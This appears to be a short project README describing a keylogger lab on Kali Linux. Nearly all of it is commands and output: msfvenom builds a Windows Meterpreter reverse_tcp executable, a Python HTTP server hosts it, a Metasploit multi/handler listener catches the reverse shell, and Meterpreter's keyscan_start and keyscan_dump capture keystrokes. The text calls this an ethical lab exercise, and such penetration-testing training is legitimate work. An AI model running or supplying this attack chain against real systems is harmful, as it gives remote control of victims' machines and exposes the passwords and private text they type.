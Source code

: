# Keylogger Setup Project

## Project Overview
The Keylogger Project delves into the creation of a keylogger using Kali Linux, with a focus on the Metasploit Framework's msfvenom and Meterpreter. The objective is to provide users with hands-on experience in generating payloads, setting up listeners, and exploring the capabilities of Meterpreter in a controlled and ethical environment.

```
ifconfig
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet [REDACTED]  netmask 255.255.255.0  broadcast [REDACTED]
        inet6 [REDACTED]  prefixlen 64  scopeid 0x20<link>
        ether [REDACTED]  txqueuelen 1000  (Ethernet)
        RX packets 1639859  bytes 873793905 (833.3 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1215487  bytes 189420207 (180.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 363  bytes 25152 (24.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 363  bytes 25152 (24.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[REDACTED] LPORT=123 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```
```
python -m http.server 8000

```
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit (multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit (multi/handler) > set LHOST [REDACTED]
LHOST => [REDACTED]
msf6 exploit (multi/handler) > set LPORT 123
LPORT => 123
msf6 exploit(multi/handler) > run
```
```
meterpreter > keyscan_start
```
```
meterpreter > keyscan_dump
```
